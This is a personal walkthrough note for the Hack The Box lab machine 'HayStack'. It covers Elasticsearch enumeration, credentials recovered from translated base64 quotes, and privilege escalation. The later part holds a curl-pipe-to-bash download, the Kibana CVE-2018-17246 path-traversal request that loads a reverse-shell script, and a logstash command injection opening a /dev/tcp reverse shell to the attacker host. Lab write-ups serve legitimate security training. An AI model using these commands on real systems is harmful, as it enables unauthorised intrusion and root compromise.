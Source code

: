 # HTB_Ippsec_Note

# HayStack Machine - 10.10.10.115

nmap -sC -sV -oA nmap/haystack 10.10.10.115

Navigate to 10.10.10.115 --> Simple Photo

Lets check robots.txt

Navigate to 10.10.10.115/robots.txt --> 404 not Found

Save the image and run tools like exiftool etc.

root@kali: exiftool ~/Downloads/needle.jpg --> File Modification Date --Today

Sometimes Downloading file via browser changes the modification Meta Data

So Try downloading file via wget or curl

root@kali: wget http://10.10.10.115/needle.jpg

root@kali: exiftool needle.jpg  --> File Modification Date -- 2019:01:25

Navigate to 10.10.10.115:9200 --> You'll see a json output (Clustername: Elastic search version 6.4.2)

Google

Elastic Search api 6.4

Kibana is front End to this.

In Elastic search API documentation--> 

Cat APIs

10.10.10.115:9200/_cat/master

10.10.10.115:9200/_cat/master?v--> For verbose


You can also try --> curl http://10.10.10.115:9200/_cat/master?v

To know the commands --> curl http://10.10.10.115:9200/_cat

For DataBases --> curl http://10.10.10.115:9200/_cat/indices

For Verbose Databases --> curl http://10.10.10.115:9200/_cat/indices?v

For Help --> curl http://10.10.10.115:9200/_cat/indices?help

DOC APIs

curl http://10.10.10.115:9200/quotes/_doc/1
curl http://10.10.10.115:9200/quotes/_doc/2
curl http://10.10.10.115:9200/quotes/_doc/3

curl http://10.10.10.115:9200/quotes/_search 


curl http://10.10.10.115:9200/quotes/_search | jq . ---> To see beautified Json

Or you can use

curl http://10.10.10.115:9200/quotes/_search?pretty

curl -s http://10.10.10.115:9200/quotes/_search | jq . ---> -s for silent--Removed curl headers from output

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq . --> Only return One Item

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq .hits --> One Object down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits' --> One More level down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0]' --> Get rit of "[" because with 0 we are refering to first json element.

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source' --> Next Item down 

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source .quote'

curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> .hits[]--> Will give all quotes


curl http://10.10.10.115:9200/_cat/indices?v

green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb      
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0      
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0     

curl -s http://10.10.10.115:9200/bank/_search?size=1 | jq '.'--> For bank info

curl -s http://10.10.10.115:9200/bank/_search?size=1000 | jq '.hits .hits[] ._source .email'


curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> Result of this is in spanish


vi exploit.py

import requests, json

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=1')
quotes = json.loads(r.text)

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	print(q)
	print() --> for Line break between two quotes


*** Google --> Python translate google" --> https://pypi.org/project/googletrans/

#pip3 install googletrans


vi exploit.py

import requests, json
from googletrans import Translator

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=253')
quotes = json.loads(r.text)
translator = Translator()

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	qt = (translator.translate(q)).text
	print(qt)
	print() --> for Line break between two quotes



python3 exploit.py | tee quotes-translated.txt --> tee will print the output on console and in file simultaneouslt

cat quotes-translated.txt | grep -i password --> -i for ignore case
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key --> Give Some base64 encode values

\# echo -n dXnlcjogc2VjdXJpdHkg | base64 -d --> user : security

\# echo -n <other base64 value> | base64 -d --> pass : spanish.is.key


ssh security@10.10.10.115

password - spanish.is.key

security@haystack 

[security@haystack $] curl 10.10.14.3:8000/LinEnum.sh | bash


* Result showed

127.0.0.1:5601 - Kibana generally

Generally logstash has its own user but here it is running as root

[security@haystack $] curl 127.0.0.1:5601

ssh port forwarding using -L

or shortcut

[security@haystack $] ~C
ssh> -L 5602:127.0.0.1:5601
Forwarding port.


in New terminal 

root@kali# ss -ln

--> we are listening on 127.0.0.1:5602

Now navigate to kali browser and open 127.0.0.1:5602--> You'll kibana loading

Management tab --> Kibana version 6.4.2

Google -> Kibana 6.4.2 exploit

 https://github.com/mpgn/CVE-2018-17246

[security@haystack $] cd /dev/shm
[security@haystack $] vi rev.js

paste the expoit js code given in exploit and edit your IP to get reverse shell

root@kali# nc -nlvp 1337


root@kali# curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'



root@kali# nc -nlvp 1337

ls 

--> we got reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

root@kali# stty raw -echo

FG --> you won't see this getting typed

bash-4.25$ whoami
kibana

bash-4.25$ find / -user kibana -ls 2>/dev/null --> To see what we have access to
bash-4.25$ find / -group kibana -ls 2>/dev/null --> To see what we have access to

bash-4.25$ ls /etc/logstash
bash-4.25$ cd /etc/logstash
bash-4.25$ ls -la 

cd conf.d
cat filter.conf
cat input.conf
cat output.conf

export Term=xterm --> Now you can clear the screen

vi /opt/kibana/logstash_pleasesubscribe

Ejecutar comando : touch /dev/shm/LeaveAComment
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.3/9001 0>&1

bash-4.25$ watch -n 1 ls -la /dev/shm


root@kali# nc -nlvp 9001

[root@haystack ~]#
